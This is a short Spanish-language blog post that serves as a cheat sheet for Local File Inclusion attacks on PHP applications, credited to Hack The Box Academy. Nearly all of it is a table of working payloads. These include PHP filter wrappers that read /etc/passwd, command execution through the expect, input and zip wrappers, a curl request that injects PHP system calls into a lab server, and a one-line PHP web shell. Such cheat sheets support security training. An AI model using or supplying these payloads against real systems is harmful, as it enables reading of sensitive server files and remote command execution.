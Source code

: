 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


_La vulnerabilidad ‘Local File Inclusion’ permite a un atacante leer un archivo del servidor vulnerable, se produce debido a un error de programación de la pagina._

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

![LFI](https://storage.googleapis.com/attackdefense-public.appspot.com/banners/webapp/local-file-inclusion/banner.png)

## Recursos

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[PayloadBox](https://github.com/payloadbox/rfi-lfi-payload-list)

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**